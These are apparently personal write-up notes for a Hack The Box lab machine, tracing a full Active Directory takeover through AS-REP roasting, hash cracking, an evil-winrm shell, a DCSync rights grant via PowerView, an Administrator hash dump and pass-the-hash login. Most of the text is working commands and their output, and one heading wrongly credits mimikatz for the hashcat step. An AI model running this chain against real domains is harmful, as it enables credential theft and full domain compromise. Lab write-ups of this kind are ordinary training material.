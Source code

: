 - Start responder 
```
sudo responder -I tun0
```
- Create wordlist from usernames 
- check for no preauth users with get npusers from impacket
```
impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.domain.txt
```
- Output
```
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f1d92e8069100d3211632fa206366492$8fce52fb998ae5b9355991e862ea90534d371d025b36ad742360b7fff69d9105463067b15841c06058ef41986c87338ffd20397f441dbaa1fdb8d9e24a18bd9339fe35d9b33de372022a00a6590cdc597278af5f362cf1d0d70397e95a1c323542211329a5b4f1f1014cff3748a65d739b4c39ce47472524b3bab650437a7621dbbca97e851196669fa29368c6815db3c447cff039cdd24900fbc61cfb433b626285940e81763b296789ad0cf4bd357f80714d0970f970cc084d195f9c3ece012e15884b8ee235ed130d701247fc60d26bd9781b3a0ab981a17566dc05628a77381860bf9468
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- Cracking svc-alfresco with mimikatz
```
hashcat -m 18200 hashes.domain.txt /usr/share/wordlists/rockyou.txt --force
```
- Cracked::: s3rvice
- trying psexec
```
impacket-psexec htb.local/svc-alfresco:s3rvice@htb.local
```
- showed shares none writable so it didn't work
- trying smbexec
```
impacket-smbexec htb.local/svc-alfresco:s3rvice@htb.local
```
- didn't work. Denied
- Trying wmiexec
```
impacket-wmiexec htb.local/svc-alfresco:s3rvice@htb.local
```
- Access denied. Moving on to enumerate smb
```
nxc smb -d htb.local -u svc-alfresco -p s3rvice --shares htb.local
```
- Found SYSVOL and NETLOGON are readable
- have command execution by adding -x whoami at the end of the nxc command. Going to try to get a shell with powershell-empire
```
sudo powershell-empire server
```
```
sudo powershell-empire client
```
- Get the empire.db file path from /usr/share/powershell-empire/empire/server/config.yaml
```
location: /var/lib/powershell-empire/server/data/empire.db
```
- Default login
```
username: empireadmin
password: password123
```
- generate the listener on http with an appropriate name
- false alarm we do not have execution through nxc smb -x
- enumerate shares with 
```
nxc smb 10.10.10.161 -d htb.local -u svc-alfresco -p s3rvice -M spider_plus
```
- View shares in /tmp/nxc_hosted/nxc_spider_plus
- Get the files with
```
nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```
- nothing valuable in the smb shares
- Need to try evil-winrm 
```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```
- got a shell
- got user
- Bloodhound shows the need to add a user to Exchange Windows Privilages so i added hacker with 
```
net user hacker password123 /add /domain
```
- Set up listener after dropping nc.exe that gives a powershell so hat I can use powerview
- Bypass execution policy
```
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```
```
Import-Module .\Powerview.ps1
```
```
$SecPass = ConvertTo-SecureString 'password123' -AsPlainText -Force
```
```
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hacker', $SecPass)
```
```
Add-ObjectACL -PrincipalIdentity hacker -Credential $Cred -Rights DCSync
```
```
python3 /opt/secretsdump.py 'hacker:password123@10.10.10.161' -just-dc-user Administrator -just-dc-ntlm
```
- Output
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Cleaning up... 
```
- Then login as administrator
```
evil-winrm -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i 10.10.10.161
```
